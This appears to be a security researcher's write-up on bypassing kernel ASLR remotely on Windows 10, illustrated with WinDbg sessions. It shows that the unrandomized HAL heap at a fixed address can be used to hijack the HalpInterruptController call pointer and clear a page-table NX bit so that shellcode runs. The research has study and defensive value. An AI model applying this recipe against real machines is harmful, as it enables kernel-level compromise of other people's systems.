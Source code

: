 Bypass Kernel ASLR
Target : Windows 10 (remote bypass)
By Heurs
-----------------------------------------------------------------------------
Imagine, you can execute in remote (and you can repeat this action) :

MOVQ [RDI], RSI
You control RDI and RSI

Two questions :
 - Where do we write ?
 - What do we write ?

Don't forget, any access of unmapped memory causes a BSOD. (and Windows has an ASLR kernel since Windows 7)

Ok, lets go, is the ASLR on all modules ?

kd> lm
start end module
00007ff8`10ef0000 00007ff8`110a6000 ntdll
fffff800`1ace4000 fffff800`1acef000 kdcom
fffff800`1ae0f000 fffff800`1b5e3000 nt
fffff800`1b5e3000 fffff800`1b64d000 hal
fffff800`23c00000 fffff800`23c58000 msrpc
fffff800`23c60000 fffff800`23cb9000 FLTMGR
fffff800`23cc0000 fffff800`23ce0000 ksecdd
fffff800`23ce0000 fffff800`23cf3000 clipsp
fffff800`23d00000 fffff800`23dd2000 Wdf01000
fffff800`23de0000 fffff800`23df0000 WDFLDR
fffff800`23df0000 fffff800`23e0e000 acpiex
fffff800`23e20000 fffff800`23eaf000 ACPI
fffff800`23eb0000 fffff800`23eba000 WMILIB
fffff800`23ec0000 fffff800`23f4d000 cng
[...]
kd> lm
start end module
00007ffb`bf920000 00007ffb`bfad6000 ntdll
fffff801`ba400000 fffff801`ba458000 msrpc
fffff801`ba460000 fffff801`ba4b9000 FLTMGR
fffff801`ba4c0000 fffff801`ba4e0000 ksecdd
fffff801`ba4e0000 fffff801`ba4f3000 clipsp
fffff801`ba500000 fffff801`ba5d2000 Wdf01000
fffff801`ba5e0000 fffff801`ba5f0000 WDFLDR
fffff801`ba5f0000 fffff801`ba60e000 acpiex
fffff801`ba620000 fffff801`ba6af000 ACPI
fffff801`ba6b0000 fffff801`ba6ba000 WMILIB
fffff801`ba6c0000 fffff801`ba74d000 cng
fffff801`ba760000 fffff801`ba770000 pcw
fffff801`ba770000 fffff801`ba77a000 msisadrv
fffff801`ba780000 fffff801`ba7c9000 pci
[...]

As Windows 7 and 8 / 8.1, modules are randomized.

Undocumented extension command of windbg : !ptetree
The ptetree command lists all pages allocated for a process and pte2va translates a page table entry to the corresponding virtual address.

kd> !ptetree
[...]
fffff6fb7dbedff8 00000000001EF063 pfn 1ef ---DA--KWEV
 fffff6fb7dbffff8 00000000001EE063 pfn 1ee ---DA--KWEV
 fffff6fb7ffffff0 00000000001ED063 pfn 1ed ---DA--KWEV
 fffff6ffffffe800 0000000000100163 pfn 100 -G-DA--KWEV
 fffff6ffffffe808 0000000000105163 pfn 105 -G-DA—KWEV
[...]
kd> !pte2va FFFFF6FFFFFFE808
ffffffffffd01000

After some reboots, we can figure out that the page with
the ffffffff`ffd00000 address is not randomized.
What is this address ?

kd> !pte ffffffff`ffd00000
PXE at FFFFF6FB7DBEDFF8 [...] PDE at FFFFF6FB7FFFFFF0 PTE at FFFFF6FFFFFFE800
contains 00000000002DD063 [...] contains 00000000002DF063 contains 8000000000001163
pfn 2dd ---DA--KWEV [...] ---DA--KWEV pfn 1 -G-DA--KWEV

windbg shows that the page rights are KWE (RWX) but if we look the containing data, the first bit is set.
So the NX protection is enabled and page is just RW.

Ho... wait ! 
The ffffffff`ffd00000 address reminds me something In october 2011
I published a paper on Windows 7 (32b) kernel ASLR bypass, and I used...
ffd00000 address space !

ffffffff`ffd00000 contains a lot of pointers to HAL.DLL

After a quick search in this DLL we can see :
.data:0000000080052028 HalpHeapStart dq 0FFFFFFFFFFD00000h ; DATA XREF: HalpUnmapVirtualAddress:loc_800156ECr

This is the << heap >> of HAL.
Now our objective is to redirect execution to the shellcode.

A global variable of HAL.DLL is really interesting,
HalpInterruptController.

kd> dq hal!HalpInterruptController L1
fffff800`c3c18990 ffffffff`ffd004b0

![Cat](https://i.imgur.com/rbDkvPL.png)

So we have a call *(ffffffff`ffd004b0+78)(...)
We can try to overwrite this qword and see.

kd> eq ffffffff`ffd004b0+78 4141414141414141
kd> g
KDTARGET: Refreshing KD connection
*** Fatal System Error: 0x0000003b

(0x00000000C0000005,0xFFFFF800C3BD69DB,0xFFFFD000206ACB50,0x000000000000
0000)
[...]
cs=0010 ss=0018 ds=002b es=002b fs=0053 gs=002b
efl=00010002
hal!HalRequestSoftwareInterrupt+0xbb:
fffff800`c3bd69db ffd0 call rax {41414141`41414141}
[...]

Shellcode time !

On windows all PTEs has a fixed address. If you want to access to the 0xffffffffffd00000 PTE you can read 0xFFFFF6FFFFFFE800.
!pte displays this information :

kd> !pte ffffffff`ffd00000
 VA ffffffffffd00000
PXE at FFFFF6FB7DBEDFF8 [...]PDE at FFFFF6FB7FFFFFF0 PTE at FFFFF6FFFFFFE800
contains 00000000002DE063 [...]contains 00000000002E0063 contains 8000000000001163
pfn 2de ---DA--KWEV [...]pfn 2e0 ---DA--KWEV pfn 1 -G-DA--KWEV
kd> dq FFFFF6FFFFFFE800
fffff6ff`ffffe800 80000000`00001163 80000000`00002163
fffff6ff`ffffe810 80000000`f00b007b 80000000`00003163
fffff6ff`ffffe820 80000000`00004163 00000000`00005101
fffff6ff`ffffe830 80000000`00006163 80000000`00007163
fffff6ff`ffffe840 80000000`00008123 80000000`0000b163
fffff6ff`ffffe850 80000000`00009163 80000000`0000a163
fffff6ff`ffffe860 80000000`0000d103 80000000`0000c163
fffff6ff`ffffe870 80000000`00070163 80000000`0000e163

ffffffff`ffd00000 space is full of codecaves, I took a random one, ffffffff`ffd035c0, but NX flag is set :-(
Remember, all PTE have a fixed address.
So, we can overwrite the NX flag of this address :-)

![Cat](https://i.imgur.com/1qgjTBW.png)

So... to remotely bypass kernel ASLR on Windows 10 you
just have to write a shellcode at ffffffff`ffd035c0 (or another
address) and disable the NX flag in the page table entry.
Write ffffffff`ffd035c0 at ffffffff`ffd00528 and... no more !
